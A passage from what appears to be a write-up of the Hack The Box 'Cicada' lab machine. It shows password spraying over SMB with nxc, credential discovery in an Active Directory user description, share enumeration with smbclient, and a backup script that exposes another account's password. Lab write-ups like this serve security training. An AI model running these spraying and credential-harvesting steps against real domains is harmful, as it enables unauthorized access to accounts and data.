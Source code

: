 Since we've got the password from earlier enumeration, we can now use this to spray against discovered users to see if any of them are using the default password, having not reset it to their own. 

## Exploitation

Use `nxc` to spray:

```shell
nxc smb 10.10.11.35 -u ~/HTB/Cicada/newusers.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --users --continue-on-success
```

We get a hit against **michael.wrightson**:

```text
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

So we can try enumerating further by authenticating as that user:

```shell
nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

The output shows a user which has left information within AD - a cleartext password.

```text
SMB         10.10.11.35     445    CICADA-DC        david.orelious                2024-03-14 12:17:29 15      Just in case I forget my password is aRt$Lp#7t*VQ!3
```

We can then enumerate some shares as the newly identified user, using `smbclient`.

```shell
smbclient -L \\\\10.10.11.35\\ -U david.orelious
```

This shows a share named **DEV**, which we can connect to and enumerate further.

```shell
smbclient \\\\10.10.11.35\\DEV -U david.orelious
```

The share contains a file called "Backup_script.ps1", which when opened displays the following:

```text
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```
